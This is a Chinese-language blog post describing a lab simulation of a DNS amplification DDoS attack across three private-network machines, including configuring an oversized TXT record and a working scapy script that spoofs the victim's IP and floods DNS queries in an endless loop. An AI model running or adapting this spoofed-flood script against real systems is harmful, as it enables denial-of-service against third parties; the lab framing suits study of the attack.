 ```yaml
---
layout: single
author_profile: true
comments: true
title: DNS放大攻击完整过程模拟
categories: [CyberSecurity]
tags: [DDoS, DNS]
---
```


<h1>引言</h1>
<div>网上搜索一下“DNS放大攻击模拟”，发现只是一个python scapy脚本，实现DNS查询功能，且不说那个查询记录有问题，DNS放大攻击能够成功实施的一个关键是控制DNS服务器，在DNS服务器上设置一条特别大的文本记录，以此达到放大的目的。本文使用3台机器模拟完整的DNS放大攻击过程。</div>
<h1>实验环境</h1>
<div>DNS服务器（10.61.1.175）：windows server 2003及自带的DNS服务器；
攻击机（10.61.1.177）：需要Python+scapy环境；
被攻击机（10.61.1.157）：网络连接正常的机器；</div>
<h1>搭建DNS服务器</h1>
<div>如何在win2003环境下搭建DNS服务器，网上教程一大把，自行查找。此处其实是在DNS服务器上创建一个异常（超大）的TXT记录，当黑客查询请求这条记录时，DNS服务器返回这条超长的TXT记录，达到放大攻击流量的效果。
<ul>
	<li>创建一个test.com域；</li>
	<li>在test.com域下新建主机，记录类型为A，记录名称为www，设置IP为10.61.1.175；</li>
	<li>在test.com域下新建资源记录，记录类型为TXT，记录名称为www，设置文件为任意一个字符串，长度尽量大，据说最大是4000字节；</li>
</ul>
</div>

<img src='/assets/images/DNS-NEW-TXT-1.jpg'>
<img src='/assets/images/DNS-NEW-TXT-1.5.jpg'>
<img src='/assets/images/DNS-NEW-TXT-2.jpg'>

<h1>DNS放大攻击脚本</h1>

	#!/usr/bin/env python
	from scapy.all import *
	a = IP(dst="10.61.1.175",src="10.61.1.157")
	b = UDP(dport=53)
	c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
	c.qd=DNSQR(qname="www.test.com",qtype="TXT",qclass="IN")
	p = a/b/c
	while 1:
		send(p)

<ul>
	<li>由于UDP的无连接性，可以实现反射攻击的目的，在IP层伪造源IP为被攻击机的IP地址10.61.1.157，目的IP就是DNS服务器的IP地址10.61.1.175;</li>
	<li>DNS服务器的服务器端口是53，在UDP层将目的端口设置为53;</li>
	<li>查询域名是www.test.com，查询的类型为TXT，也就是请求查询我们在DNS服务器上恶意设置的TXT记录，实现放大目的。</li>
</ul>
<h1>结果</h1>
<div>
<ul>
	<li>在攻击机上运行 sudo ./DNSamplify.py</li>
	<li>在被攻击机上用wireshark/tcpdump抓包可以看到DNS 响应包，DNS层的txt记录下是在DNS服务器上恶意设置的TXT记录。</li>
</ul>
</div>
